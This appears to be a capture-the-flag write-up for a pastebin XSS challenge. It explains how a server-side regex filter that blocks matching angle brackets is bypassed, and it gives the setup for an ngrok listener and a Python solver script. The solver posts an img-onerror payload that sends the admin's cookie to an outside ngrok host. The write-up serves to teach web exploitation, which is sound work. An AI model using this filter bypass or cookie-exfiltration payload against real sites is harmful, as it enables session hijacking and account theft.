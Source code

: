 From the codes, we also know that we can't have `< something something >` in the codes because of the filter on this line:

```javascript
  if (paste.search(/<.*>/) !== -1) {
    return res.redirect(`/flash?message=Illegal characters in paste!`);
  }
```

So we need to make payload that can bypass this filter, so can't use something like `<script></sciprt>`. If you go to the PayloadOfAllThings (https://github.com/swisskyrepo/PayloadsAllTheThings) you can see this payload is available `<img src=x onerror=document.location='https://xxxxxx.jp.ngrok.io?c='+document.cookie//`. We just need to incorporate this payload.

Because we need to have a listener for XSS, we need to open our server to the public, I used ngrok for that (so you don't need dedicated server for listening)

```bash
# spin up server locally at port 8000
python3 -m http.server 8000

# make local server accessible by public by using ngrok service
ngrok http 8000
```

Solver:

```python
import requests

URL="https://pastebin.mc.ax/"

s = requests.Session()
payload = "<img src=x onerror=document.location='https://xxxxxx.jp.ngrok.io?c='+document.cookie//"
res = s.post(URL+"new", data={"paste":payload})
print(res.request.url)
```

after you get the url for your XSS payload, you can paste it on the admin page, and you will receive the request from admin:

![](<../../.gitbook/assets/image (5).png>)

![](<../../.gitbook/assets/image (9).png>)
